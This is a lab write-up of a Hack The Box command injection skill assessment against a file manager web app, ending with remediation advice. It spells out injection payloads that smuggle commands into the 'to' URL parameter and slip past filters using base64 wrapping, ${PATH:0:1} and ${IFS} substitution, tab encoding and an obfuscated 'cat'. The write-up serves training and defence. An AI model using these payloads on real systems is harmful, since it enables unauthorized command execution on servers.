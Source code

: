 This is a detailed write-up for the HTB Bug Bounty Hunter Certification’s skill assessments. This write-up series will treat each skill assessment as an individual penetration test, with a full explanation of a specific vulnerability, including remediation recommendations.
Command Injection Skill Assessment

Scenario:
You have been contracted to perform a penetration test for a company, and during your testing, you discover an interesting file manager web application. Since file managers often execute system commands, you are interested in testing for command injection vulnerabilities.

Use the various techniques discussed in this module to detect a command injection vulnerability and then exploit it, bypassing any filters that are in place.

Target in Scope:
94.237.xx.xxx
Recon and Analysis:

First, you want to interact with the application as a normal user to understand its functionality.

The file manager web application appears to be connected to the OS level, allowing us to view files hosted on the server.


When clicking the tmp folder, the parameter in the URL changes to to=tmp.

![1_sP63QruxRhfbTcO9YVNyXA](https://github.com/user-attachments/assets/59ef09be-f7b8-4d57-ae3a-62aecaf0b1a9)

This also happens when visiting a .txt file, with the parameter appearing as to=&view=filename.txt.

![1_J-RQt28WxAwk5Wa5-wT5CQ](https://github.com/user-attachments/assets/380f5e5b-af7d-4f72-b085-d875a704f593)

Each file and folder has several functional action buttons, such as the "copy" button.

![1_gjQ3JZfX-MGnxSe0qEu3pg](https://github.com/user-attachments/assets/7d2d989d-c1dc-40cd-80d5-59db260dfaf7)

It seems this function allows users to copy files to other directories.

![1_r5KkM70_NqJH2h7LhVrpQA](https://github.com/user-attachments/assets/daeecf1b-bf80-4078-a102-71ee641a2e89)

The file can be moved using this URL:

![1_rD7m-OmRqTgTcoTCIt09pw](https://github.com/user-attachments/assets/23ec78ec-92da-4abb-9928-638f6f414487)

Once a file is moved, the action cannot be repeated on the same file.

![1_qVTBRRDDLA6BJDUSu86tSw](https://github.com/user-attachments/assets/46c09bbc-c89c-4a1c-b950-2270bbf6c6a8)

There is also an advanced search option available next to the regular search bar.

![1_68X6VX6zfQBHoae9zy5QmA](https://github.com/user-attachments/assets/80acbefa-01e8-416c-9453-33fc2085bfd4)

![1_ZffheKduXtvwx1x9oT7tWQ](https://github.com/user-attachments/assets/0983529a-c562-45ef-bbb9-6791d4f1230d)
Attack Vector:

After testing the functional areas, we now want to target specific features and URL parameters to see if we can perform a command injection. One such area is the "move file" feature.

Below is the initial move of a file to a directory using the UI and HTTP request.

![1__9sjeuekvcmy2ap3PO5x6g](https://github.com/user-attachments/assets/94daae8f-ce9a-482b-9b92-6fbec09ea931)

![1_ncY80ky1RSacQ08pZvG0Ig](https://github.com/user-attachments/assets/2d8cddeb-4bb1-4720-a061-6bac9c63af17)
Below is the repeated action for moving the same file.

![1_tLiphvDYbtwb8ctXiJ4mcg](https://github.com/user-attachments/assets/cb117f97-8f43-4e5c-9bf3-dc0b14d97c06)

![1_Do-CEGUOvPj5x7fATCfogw](https://github.com/user-attachments/assets/3c20054b-0170-4ff5-a154-528f5eb36ddf)

We want to check if the URL parameter is vulnerable to command injection.
Command Injection Techniques:

To inject additional commands into the existing one, we can use the following operators:

![1_6RqtiecXLibfJG7bNnbggQ](https://github.com/user-attachments/assets/8e5a7ced-3d20-453b-9c21-9175d2e7fe26)

I tried injecting commands like whoami and ls into the "to" parameter. The error message displayed: "malicious request denied".

![1_AugDlPIamC-dViU1mxSZog](https://github.com/user-attachments/assets/1e147d29-cfdb-400e-9811-e61a98f5b7f0)

![1_6lfoA-aykZLJy4O0FylvfA](https://github.com/user-attachments/assets/82451731-5b66-4185-b145-1d53d404ac7b)

This indicates that basic commands are filtered. Therefore, we need to identify possible filters such as space, blacklisted characters, commands, or WAF filters.

To bypass this, I used command obfuscation with Base64 encoding.

bash<<<$(base64 -d<<<"base64 encoded OS payload")

![1_8qqHQ7Flk2Q_ta4Veh5TkA](https://github.com/user-attachments/assets/22448c0a-411a-44c7-8ff2-b9fac3dff2e9)

![1_VQa99McP4WKBTheG81c-Bg](https://github.com/user-attachments/assets/5b6d0267-d673-4229-b934-97ceb20e6007)

We successfully executed whoami and obtained the result: www-data. Next, I tested ls -la to list the files.

![1_1BxwIbTNtGgV_cLjJey8_w](https://github.com/user-attachments/assets/560881b1-453e-4746-b474-31e947411f67)

![1_y3D8SI-AzdRv-zy4NIqITA](https://github.com/user-attachments/assets/77d9db20-2325-4098-b28f-4ccd5ff13029)

Exploit:

Now that we’ve identified the attack vector by bypassing the filter, we can perform an exploit.

I attempted to view the root directory.

![1_71hBS1YyYI7UU1xOZqD4OQ](https://github.com/user-attachments/assets/e4370eb5-7f18-490b-a649-145ab6d6e897)

![1_W8IH38unw5sH16ApJBbReA](https://github.com/user-attachments/assets/cb53bf44-1a46-4127-b883-8a35560f28a5)


There are several files, including config.php and index.php. Let’s explore further.
![1_3ql0uD7UGvLZBFIr7WywkA](https://github.com/user-attachments/assets/5a87aea9-8c07-4c70-9c76-66608aca0ff1)

![1_-EU1o-wPNioFbl73qZCJ-w](https://github.com/user-attachments/assets/5bc27cde-d090-4c03-a593-a8dddc535e2d)

![1_cgdw9PtRxdIlbW2j1KB2lw](https://github.com/user-attachments/assets/b144ef9c-9cfb-4b82-b26f-096e92090e35)


I couldn’t find the target file, flag.txt, but I moved it to the tmp directory.

${PATH:0:1} = /

${IFS} = space

mv/flag.txt /var/www/html/files/tmp

mv ${PATH:0:1}flag.txt ${PATH:0:1}var${PATH:0:1}www${PATH:0:1}html${PATH:0:1}files${PATH:0:1}tmp

Base64 encoded:

bXYgJHtQQVRIOjA6MX1mbGFnLnR4dCAke1BBVEg6MDoxfXZhciR7UEFUSDowOjF9d3d3JHtQQVRIOjA6MX1odG1sJHtQQVRIOjA6MX1maWxlcyR7UEFUSDowOjF9dG1w

bash<<<$(base64%09-d<<<bXYgJHtQQVRIOjA6MX1mbGFnLnR4dCAke1BBVEg6MDoxfXZhciR7UEFUSDowOjF9d3d3JHtQQVRIOjA6MX1odG1sJHtQQVRIOjA6MX1maWxlcyR7UEFUSDowOjF9dG1w)

![1_3xa5s3hlJbbor7gk6IkI1A](https://github.com/user-attachments/assets/ae2ed837-0694-4b6f-8d3e-c9d75efe5024)

While the file was moved, I didn’t have permission to read it. However, I now know the location of the flag.txt file.

To bypass character filters, I used this payload:

%26c\a\t%09${PATH:0:1}flag.txt

&cat (horizontal tab) /flag.txt

![1_Uhd2OU1u7YJIZ6tpFZBHrA](https://github.com/user-attachments/assets/75d45b6a-43a2-4fba-b380-b1e4c7b0ae99)
Consequences:

A command injection vulnerability is one of the most severe types. It allows an attacker to execute OS-level commands on the server, potentially compromising the entire network. When a web application uses user input to execute a system command, an attacker can inject malicious commands and take control of the system.

Remediation:

To prevent command injection vulnerabilities, consider the following measures:

    Avoid using system commands in web applications.
    Implement strict input validation and sanitization.
    Configure the web server properly to minimize the risk of such attacks.
